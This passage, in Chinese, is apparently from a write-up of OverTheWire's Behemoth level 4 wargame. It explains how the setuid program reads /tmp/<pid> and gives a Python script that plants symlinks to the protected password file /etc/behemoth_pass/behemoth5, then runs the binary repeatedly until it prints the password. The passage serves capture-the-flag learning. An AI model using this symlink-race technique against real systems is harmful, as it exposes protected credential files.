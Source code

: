 从反汇编出来的代码可以大概了解到程序的执行流程。

![behemoth_level4_disassemble](http://drops.javaweb.org/uploads/images/d404d2b974d923961c68d03ca90ed6fd82c75a5d.jpg)

![behemoth_level4_disassemble_2](http://drops.javaweb.org/uploads/images/ac4c32d3d52d4a837919c6fa6b400b5453f0e878.jpg)

程序首先打开`/tmp/pid`文件，然后`sleep(1)`一秒，然后将文件内容输出，这样我们只要将文件软链接到密码文件，就可以让程序打开密码文件，同时输出文件内容了。难点在于，我们如何知道程序的`pid`，虽然_linux 下　pid 是递增的，但是这也无法保证每次增加的就是 1 个单位_。于是，我想到了一个_不优雅_的方法，我们先建立大量的可能的`pid`软链接文件，然后一直执行程序，执行程序的`pid`会落到我们建立的文件范围内的。

`behemoth4.py`

```
#!/usr/bin/env python
#coding=utf-8

import sys, os
passwd_file = "/etc/behemoth_pass/behemoth5"

if len(sys.argv) < 2:
        print "usage %s [start pid num]"
        sys.exit(-1)
try:
        start_pid = int(sys.argv[1])
except ValueError:
        print "usage %s [start pid num]"
        sys.exit(-1)

# 建立 50 个符号链接文件
for i in range(50):
        os.popen("ln -s " + passwd_file + " /tmp/" + str(i+start_pid))

# 执行 1000 次程序
for i in range(1000):
        ret = os.popen("/behemoth/behemoth4")
        ret = ret.read()
        if not "not" in ret:
                print ret
                break

# 删除所有建立的文件
for i in range(50):
        os.popen("rm /tmp/" + str(i+start_pid))

```

主要是`python`下获取子进程的`pid`太麻烦了，要不然这个爆破的代码可以写得更优雅一点。不过不影响结果，依然爆破出来了。这里需要注意的是，`start pid`即程序的参数应该要选得大一点，因为程序里面建立符号链接文件启动了不少子进程，我这里在原来的基础上增加了`500`个数，否则容易越过。

![behemoth_level4_crack](http://drops.javaweb.org/uploads/images/81725852f7e686915b0fd28bd05d2c9d2b4a2462.jpg)

level 5
=====
